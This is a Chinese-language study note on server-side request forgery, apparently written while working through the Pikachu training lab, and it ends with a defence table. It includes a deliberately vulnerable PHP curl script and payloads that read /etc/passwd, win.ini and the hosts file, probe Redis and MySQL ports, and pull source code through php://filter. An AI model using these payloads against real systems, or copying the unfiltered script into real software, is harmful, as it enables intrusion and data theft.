





> Environment: PHP 7.3.4 + MySQL 5.7.26
> Lab: Pikachu

# 1.0 SSRF

### 1.1 什么是SSRF

**SSRF**(Server-Side Request Forgery, 服务端请求伪造): 服务器在**没有对目标地址做有效过滤**的情况下, 替攻击者向任意地址发起请求, 攻击者相当于把服务器当成了"跳板机"

### 1.2 根因

**用户可控的 URL / 资源标识符 → 进入了网络请求函数, 且无过滤** 和文件包含 `include($_GET['file'])` 是同一类

### 1.3 常见危险函数

| 语言   | 危险函数                                          |
| ------ | ------------------------------------------------- |
| PHP    | `curl`、`file_get_contents`、`fsockopen`、`fopen` |
| Python | `requests`、`urllib`                              |
| Java   | `URL.openConnection`、`HttpClient`                |

### 1.4 分类

- 有回显SSRF: 内网响应直接返回给攻击者
- 无回显SSRF(Blind): 无回显, 需要 DNSLog / 时间差等侧信道确认和利用

### 1.5 漏洞危害

| 危害                    | 说明                         | 典型 payload 协议        |
| ----------------------- | ---------------------------- | ------------------------ |
| 读服务器本地文件        | 读 `/etc/passwd`、`win.ini`  | `file://`                |
| 内网端口扫描 / 服务探测 | 扫存活主机、探测 Redis/MySQL | `http://`、`dict://`     |
| 攻击内网未授权服务      | 打 Redis 写 webshell → RCE   | `gopher://`              |
| 云凭据窃取              | 偷 AWS/阿里云 IAM 临时凭据   | `http://169.254.169.254` |

> 协议就是 SSRF 的武器库: `file` 读文件、`dict` 探服务、`gopher` 发任意 TCP 字节流(万能)

---

## 2.0 漏洞利用

### 2.0.1 php函数

| 函数                | 作用                                   |
| ------------------- | -------------------------------------- |
| curl_exec()         | 执行cURL会话                           |
| file_get_contents() | 获取整个文件                           |
| fsockopen()         | 打开一个网络连接或者一个Unix套接字连接 |

### 2.0.2  CURL协议

| 协议   | 作用                                                         |
| ------ | ------------------------------------------------------------ |
| file   | 查看文件                                                     |
| dict   | 探测端口                                                     |
| gopher | 发送任意 TCP 原始字节流<br>可打 Redis/MySQL/FastCGI 写 webshell, 进而 RCE |

---

### 2.1 Pass-01-本地编写测试

`ssrf1.php`

```php
<?php
function curl($url){
    $ch = curl_init();
    // 设置URL及选项
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    // 抓取URL并传递给浏览器
    curl_exec($ch);
    // 关闭cURL资源, 并释放系统资源
    curl_close($ch);
}
$url = $_GET['url'];
curl($url);
?>
```

- http请求类(确认漏洞存在)

  

  > 通过Payload`?url=http://www.baidu.com`成功跳转链接

- 本地文件读取(file)

  ```php
  ?url=file:///c:/windows/win.ini # Windows
  ?url=file:///etc/passwd         # Linux
  ```

  

  > 成功读取到win.ini内容

- 探测内网服务(http/dict)

  ```php
  ?url=http://127.0.0.1:81/            # 访问自己，验证内网可达
  ?url=dict://127.0.0.1:6379/info      # 探测 Redis 未授权
  ```
  > 扫描思路: 通过响应差异 / 时间差判断端口是否开放 

### 2.2 Pikachu靶场实验

- 端口探测(curl)

  ```php
  ?url=dict://127.0.0.1:3306
  ```

  

  > 探测到mysql端口开放

- 读取本机hosts文件(curl)

  ```php
  ?url=file:///c:windows/system32/drivers/etc/hosts
  ```

  

- 文件读取(file_get_contents)

  ```php
  ?file=file://c:windows/system32/drivers/etc/hosts
  ```

- 通过php伪协议读取源码(file_get_contents)

  ```php
  ?file=php://filter/read=convert.base64-encode/resource=ssrf.php
  ```

  

  > 解码后与源码一致, 成功读取

---

## 3.0 防御

| 防御措施                            | 防什么                |
| ----------------------------------- | --------------------- |
| 协议白名单(只放 http/https)         | file/dict/gopher      |
| 解析后校验 IP(禁私网/回环/链路本地) | 直连内网              |
| 禁用 `CURLOPT_FOLLOWLOCATION`       | 302 跳转绕过          |
| `CURLOPT_RESOLVE` 锁定 IP           | DNS Rebinding（关键） |
| 出口防火墙 / 网络隔离               | 纵深兜底              |